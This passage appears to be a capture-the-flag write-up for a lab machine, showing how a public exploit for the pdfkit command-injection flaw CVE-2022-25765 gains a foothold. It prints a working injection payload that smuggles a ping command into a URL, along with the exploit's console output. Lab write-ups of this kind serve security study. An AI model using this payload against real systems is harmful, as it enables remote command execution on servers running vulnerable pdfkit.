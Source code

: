 Version Information:

- `Phusion Passenger(R) 6.0.15`
- `pdfkit 0.8.6`

## Foothold

### CVE-2022–25765 Command Injection

> The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized. 0.0.0.0 < versions <0.8.7.2
>
> - [Command Injection in pdfkit | CVE-2022-25765 | Snyk](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)
> - [NVD - CVE-2022-25765 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)
> - [Exploit for CVE-2022–25765 (pdfkit) - Command Injection](https://github.com/UNICORDev/exploit-CVE-2022-25765)

**POC**: ping local kali

```console
└─╼$ python exploit-CVE-2022-25765.py -c 'ping -c 1 10.10.14.14'
/home/qwe/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (2.2.0) or chardet (5.2.0)/charset_normalizer (3.3.2) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Custom Command Mode
PAYLOAD: http://%20`ping -c 1 10.10.14.14`
WARNING: Wrap custom command in "quotes" if it has spaces.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```

![image-20240207013829089](./Precious.assets/image-20240207013829089.png)
